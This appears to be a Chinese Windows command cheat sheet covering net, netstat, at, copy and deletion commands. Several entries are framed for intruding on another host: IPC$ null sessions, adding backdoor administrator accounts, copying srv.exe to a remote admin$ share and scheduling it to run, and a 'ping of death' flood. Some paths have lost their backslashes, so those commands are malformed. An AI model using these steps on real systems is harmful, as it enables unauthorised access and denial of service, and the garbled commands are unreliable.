 `net use ipipc$ " " /user:" " `建立IPC空链接
`net use ipipc$ "密码" /user:"用户名" `建立IPC非空链接
`net use h: ipc$ "密码" /user:"用户名" `直接登陆后映射对方C：到本地为H:
`net use h: ipc$ `登陆后映射对方C：到本地为H:
`net use ipipc$ /del `删除IPC链接
`net use h: /del `删除映射对方到本地的为H:的映射
`net user 用户名　密码　/add` 建立用户
`net user guest /active:yes `激活guest用户
`net user `查看有哪些用户
`net user` 帐户名 查看帐户的属性
`net localgroup administrators 用户名 /add` 把“用户”添加到管理员中使其具有管理员权限
`net start` 查看开启了哪些服务
`net start` 服务名　开启服务；(如:`net start telnet`， `net start schedule`)
`net stop` 服务名 停止某服务
`net time` 目标`ip` 查看对方时间
`net time` 目标`ip /set` 设置本地计算机时间与“目标IP”主机的时间同步,加上`参数/yes`可取消确认信息
`net view` 查看本地局域网内开启了哪些共享
`net view ip` 查看对方局域网内开启了哪些共享
`net config` 显示系统网络设置
`net logoff` 断开连接的共享
`net pause` 服务名 暂停某服务
`net send ip "文本信息"` 向对方发信息
`net ver` 局域网内正在使用的网络连接类型和信息
`net share` 查看本地开启的共享
`net share ipc$` 开启`ipc$`共享
`net share ipc$ /del `删除`ipc$`共享
`net share c$ /del` 删除C：共享
`net user guest 12345` 用guest用户登陆后用将密码改为12345
`net password 密码` 更改系统登陆密码
`netstat -a `查看开启了哪些端口,常用`netstat -an`
`netstat -n` 查看端口的网络连接情况，常用`netstat -an`
`netstat -v `查看正在进行的工作
`netstat -p` 协议名 例：`netstat -p tcq/ip` 查看某协议使用情况
`netstat -s` 查看正在使用的所有协议使用情况
`nbtstat -A ip` 对方136到139其中一个端口开了的话，就可查看对方最近登陆的用户名
`tracert -参数 ip(或计算机名)` 跟踪路由（数据包） ，参数：`-w数字`用于设置超时间隔。
`ping ip(或域名) `向对方主机发送默认大小为32字节的数据，参数：`-l[空格]数据包大小`；`-n发送数据次数`；`-t`指一直`ping`。
`ping -t -l 65550 ip` 死亡之ping(发送大于64K的文件并一直ping就成了死亡之ping)
`ipconfig (winipcfg)` 用于windows NT及XP(windows 95 98)查看本地ip地址，`ipconfig`可用参数`/all`显示全部配置信息

　　
### 进程和文件管理
---

`tlist -t`  以树行列表显示进程(为系统的附加工具，默认是没有安装的，在安装目录的Support/tools文件夹内)
`kill -F` 进程名 加`-F`参数后强制结束某进程(为系统的附加工具，默认是没有安装的，在安装目录的Support/tools文件夹内)
`del -F` 文件名 加`-F`参数后就可删除只读文件,`/AR、/AH、/AS、/AA`分别表示删除只读、隐藏、系统、存档文件，`/A-R、/A-H、/A-S、/A-A`表示删除除只读、隐藏、系统、存档以外的文件。例如`DEL/AR *.*`表示删除当前目录下所有只读文件，`DEL/A-S *.*`表示删除当前目录下除系统文件以外的所有文件
`del /S /Q 目录` 或用：`rmdir /s /Q 目录 /S`删除目录及目录下的所有子目录和文件。同时使用参数`/Q` 可取消删除操作时的系统确认就直接删除。（二个命令作用相同）
`move` 盘符路径要移动的文件名　存放移动文件的路径移动后文件名 移动文件,用参数/y将取消确认移动目录存在相同文件的提示就直接覆盖
`fc one.txt two.txt > 3st.txt` 对比二个文件并把不同之处输出到3st.txt文件中，`> `和`>>` 是重定向命令
`at id号` 开启已注册的某个计划任务
`at /delete` 停止所有计划任务，用参数`/yes`则不需要确认就直接停止
`at id号 /delete` 停止某个已注册的计划任务
`at` 查看所有的计划任务
`at ip time 程序名(或一个命令) /r` 在某时间运行对方某程序并重新启动计算机
`finger username @host` 查看最近有哪些用户登陆
`telnet ip 端口` 远和登陆服务器,默认端口为23
`open ip` 连接到IP（属telnet登陆后的命令）
`telnet` 在本机上直接键入telnet 将进入本机的telnet
`copy 路径文件名1　路径文件名2 /y` 复制文件1到指定的目录为文件2，用参数/y就同时取消确认你要改写一份现存目录文件
`copy c:srv.exe ipadmin$` 复制本地`c:srv.exe`到对方的`admin`下
`copy 1st.jpg/b+2st.txt/a 3st.jpg` 将`2st.txt`的内容藏身到`1st.jpg`中生成`3st.jpg`新的文件，注：`2st.txt`文件头要空三排，参数：/b指二进制文件，/a指ASCLL格式文件